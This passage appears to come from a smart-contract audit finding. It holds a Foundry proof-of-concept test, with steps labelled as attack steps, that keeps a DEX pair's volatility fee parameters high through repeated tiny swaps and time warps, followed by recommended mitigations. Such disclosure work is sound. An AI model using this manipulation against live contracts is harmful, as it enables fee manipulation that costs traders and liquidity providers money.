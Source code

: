             // ATTACK step 2 - Decay the Va into Vr
            vm.warp(block.timestamp + 99);
            token18D.mint(address(pair), 10);
            vm.prank(ALICE);
            pair.swap(false, DEV);

            (reserveX,reserveY,id ) = pair.getReservesAndId();
            console.log("active ID - swap2" , id);
            console.log("reserveX - swap2" , reserveX);
            console.log("reserveY - swap2" , reserveY);
            feeParams = pair.feeParameters();
            console.log("indexRef - swap2" , feeParams.indexRef);
            console.log("volatilityReference - swap2" , feeParams.volatilityReference);
            console.log("volatilityAccumulated - swap2" , feeParams.volatilityAccumulated);


            // ATTACK step 3 - keep high Vr -> high Va
            for(uint256 i=0;i<10;i++) {
                vm.warp(block.timestamp + 49);

                token18D.mint(address(pair), 10);
                vm.prank(ALICE);
                pair.swap(false, DEV);

                (reserveX,reserveY,id ) = pair.getReservesAndId();
                console.log("**************");
                console.log("ITERATION ", i);
                console.log("active ID" , id);
                console.log("reserveX" , reserveX);
                console.log("reserveY" , reserveY);
                feeParams = pair.feeParameters();
                console.log("indexRef" , feeParams.indexRef);
                console.log("volatilityReference" , feeParams.volatilityReference);
                console.log("volatilityAccumulated" , feeParams.volatilityAccumulated);
                console.log("**************");
            }

        }

### Tools Used

Manual audit, foundry

### Recommended Mitigation Steps

Several options:

1. Decay linearly to the time since last swap when T < Tf.

2. Don't update \_tf.time if swap did not affect Vr

3. If `T<Tf`, only skip Vr update if swap amount is not negligible. This will make the attack not worth it, as protocol will accrue enough fees to offset the lack of user activity.

### Severity level
